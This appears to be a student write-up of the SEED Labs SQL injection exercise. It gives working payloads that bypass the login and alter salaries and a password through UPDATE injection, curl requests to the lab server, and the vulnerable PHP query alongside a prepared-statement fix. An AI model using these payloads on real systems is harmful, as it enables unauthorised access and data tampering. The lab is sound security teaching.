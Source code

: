 # TD1 - SQL INJECTION

## SQL Coding Review

```SQL
-- SQL Commands Reminder

-- SELECT statement
SELECT column1, column2 FROM table WHERE condition;

-- UPDATE statement
UPDATE table SET column1 = value1, column2 = value2 WHERE condition;

-- INSERT statement
INSERT INTO table (column1, column2) VALUES (value1, value2);

-- DELETE statement
DELETE FROM table WHERE condition;

-- JOIN (INNER JOIN as an example)
SELECT column1, column2
FROM table1
INNER JOIN table2 ON table1.column = table2.column;

```
## SQL injections on SELECT statements

- from the webpage, our strategy is to insert SQL code into the inputs of our webpage, this will be done by using the single quote: " ' ". This will close the initial single quote that is open to insert our information and therefore we'll be able to insert SQL code right after. I have chosen to go with two options here:
    1. put a true statement in order for the sql statement to be true in all cases then comment the rest:
        ```SQL 
        ' or 1=1 --
        ```
    2. insert the name of a user then put -- to comment all the remaining code therefore all the SQL code that follows is commented thus making the password insignificant.
        ```SQL
        admin'; -- 
        ```
- first of all we inspect the behaviour of the login button, we deduce that the file retrieved when the button is clicked is unsafe_home.php, we insert in the link the same things we injected in the web and execute the curl command, for the link, we have to make sure that certain characters are URL-encoded so that they are interpreted correctly, space is indicated by a +:
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=%27+or+1%3D1+--+&Password=
    ```
    or 
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=admin%27%3B+--+&Password=
    ```
## Appending a new SQL statement
Trying to inject some text like admin’; UPDATE credential set Name=’John Doe’ WHERE
Name=‘Alice’;# the result is not as expected :
![UPDATE ERROR](./update_error.png)
This attack is actually infeasible, as one can only perform a single request through the PHP
implementation. Actually, reading the PHP documentation of the query function (see for
instance https://www.php.net/manual/fr/pdo.query.php) shows that it is limited in scope.
However, if the multi_query function had been used instead, it would have been possible to
inject an UPDATE request with new data for instance.

## SQL injections on UPDATE statements
- In order for Alice to commit the perfect crime she needs to make sure that only her salary is changed, this can be done with the following injection:
    ```sql
    ', salary='5000000' WHERE Name='Alice' -- 
    ```
    ![ALICE SALARY](./Alice_salary.png)
- now we got Alice a higher salary, let's punish her stingy boss Boby, using the same injection:
    ```sql
    ', salary='20' WHERE Name='Boby'# -- 
    ```
- Modifying the password will require us to do an extra step as the hash value of the password is the one stored using the SHA1 function, therefore we must inject the hash value of the password we would like:
    - using the following command in our linux terminal we can determine the hash for our password, in this example we use "Alice":
        ```shell
        echo -n "Alice" | sha1sum
        ```
    Or we can directly use the SHA1(string) function in SQL
    - we inject this hash using the same technique
        ```sql
        ', password = SHA1('Alice') WHERE name='Boby'#
        ```
        we can see that Boby can only login if he puts Alice in his password box.

##  Countermeasure - prepared statement
Among the best countermeasures to SQL injections is using a prepared statement in your code. 

The loophole that is exploited in this attack is that code is mixed with data, so by tampering with data, we can bypass limiters like single or double quotes and introduce new code, the code is then compiled after being modified. 

Prepared statement basically compile our SQL code before injecting the data onto it using placeholders like '?', then the data is inserted right before execution.

the unsafe php code that allowed for the sql injections to occur is the following:
```php
$result = $conn->query("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");

```

we can see here that we can tamper with the query before it's compilation.

**the safe version should seperate the SQL code then execute it, then inject our data, here is a sample of how a prepared statement works after modifying the file [unsafe.php](./Labsetup/image_www/Code/defense/unsafe.php) :**

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name = ? AND Password = ?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

After attempting the following injection we fail:
![INJECTION](./injection.png)
![INJECTION FAIL](./injection_failed.png)


Here is the information after logging on correctly:
![info](./info.png)


Note that prepared statements are **not always the solution** as it only deals with static SQL queries with a fixed structure, this is because prepared statements can only be used to protect fields that are not needed during compilation.Therefore **we cannot use prepared statements in Column names, Table names, SQL operators or within an ORDER BY clause.**

There are other ways to deal with SQL injections in such cases, mainly ***Whitelisting***.